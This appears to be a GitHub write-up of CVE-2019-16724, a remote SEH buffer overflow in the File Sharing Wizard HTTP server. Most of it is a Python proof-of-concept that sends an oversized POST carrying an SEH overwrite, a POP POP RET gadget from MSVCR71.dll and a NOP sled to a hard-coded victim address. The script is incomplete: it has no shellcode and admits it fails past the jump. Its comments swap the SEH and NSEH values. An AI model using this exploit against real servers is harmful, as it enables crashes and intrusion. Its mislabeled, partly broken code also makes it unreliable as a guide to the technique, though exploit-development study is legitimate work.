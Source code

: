 ## File sharing wizard SEH overflow writeup

```
[Attack Vectors]
When sending a remote HTTP POST request to the web-servers
application, an attacker can obtain arbitrary code execution by
sending to much data and exploiting a SEH based buffer overflow.
```

Exploit-db page: 

Assigned CVE ID : CVE-2019-16724


### Popping calculator:

![proof](https://raw.githubusercontent.com/nu11pwned/Windows-Exploit-Development-practice/master/CVE-writeups/CVE-2019-16724/proof-calc.png?token=ANBXOJYWDV3252FSZYUNWWK5RFUSQ)

----
### Proof of concept exploit: 
```python

import socket
from struct import *

# File-sharing-wizard-seh

#-----------------------------------------------------------------#
#	Bad characters: \x00					  #
#	SEH value:  0x909032EB  (JMP short)			  #
#	NSEH value: 0x909032EB	(POP POP RET)			  #
#-----------------------------------------------------------------#

#  Assigned CVE ID : CVE-2019-16724


#  cant get passed POP POP RET and short jump

victim_host = "10.0.0.213"
victim_port = 80


nseh = pack ('<I',0x909032EB) # Short jump 
seh = pack('I',0x7c38a67f)	# POP POP RET

exploit_payload  = "A" * 1040
exploit_payload += nseh
exploit_payload += seh
exploit_payload += "\x90" * 100
exploit_payload += "D" *(5000 - len(exploit_payload))

payload_header  = "POST " + exploit_payload
payload_header +=" HTTP/1.0\r\n\r\n"

# overflowed SEH handler - 42386942 : [*] Exact match at offset 1044

# POP POP RET - 7C37BBB5
# Log data, item 24
# Address=7C37BBB5
# Message=  0x7c37bbb5 : pop ecx # pop ecx # ret 0x08 |  {PAGE_EXECUTE_READ} [MSVCR71.dll] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v7.10.6030.0 (C:\Program Files\File Sharing Wizard\bin\MSVCR71.dll)

try:
	print("""
	--------------------------------
	CVE-2019-16724 proof of concept
	Author: Nu11pwn
	File sharing wizard SEH overflow
	--------------------------------
	""")
	expl = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
	print("[x] Setting up a socket connection")
	expl.connect((victim_host, victim_port))
	print("[x] Establishing a connection to the victim")
	expl.send(payload_header)
	print("[x] Sending ")
except:
	print("[!] Error establishing a connection")
	print("[!] Error sending exploit")
  ```
